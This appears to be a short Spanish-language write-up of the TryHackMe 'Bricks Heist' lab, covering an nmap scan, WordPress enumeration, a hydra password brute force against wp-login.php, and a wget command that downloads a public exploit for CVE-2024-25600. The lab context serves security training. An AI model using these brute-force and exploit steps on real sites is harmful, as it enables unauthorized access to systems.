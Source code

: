 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-24
cover: "/images/ctf/nota4-cover.webp"
preview: "brtbrtbrtbrtb"
tags: [rockyou]
link: "Sin link"
toc:
  - text: "🔍 Reconocimiento inicial"
    id: "reconocimiento-inicial"
  - text: "🎯 Enumeración de WordPress"
    id: "enumeracion-de-wordpress"
  - text: "🔓 Acceso inicial"
    id: "acceso-inicial"
  - text: "💥 Explotación del CVE"
    id: "explotacion-del-cve"
---
```


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota4-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```

